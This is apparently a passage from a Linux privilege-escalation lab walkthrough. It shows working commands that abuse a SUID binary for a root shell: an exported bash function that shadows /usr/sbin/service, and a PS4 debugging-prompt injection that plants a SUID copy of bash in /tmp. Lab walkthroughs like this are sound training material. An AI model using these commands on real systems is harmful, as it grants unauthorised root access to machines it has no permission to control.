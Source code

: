 `function /usr/sbin/service { /bin/bash -p; }`\
`export -f /usr/sbin/service`

Run the suid-env2 executable to gain a root shell:

`/usr/local/bin/suid-env2`

<figure><img src=".gitbook/assets/image (64).png" alt=""><figcaption><p>3</p></figcaption></figure>

### 14 - SUID / SGID Executables - Abusing Shell Features (#2)

Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.\


Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

<figure><img src=".gitbook/assets/image (65).png" alt=""><figcaption><p>1</p></figcaption></figure>

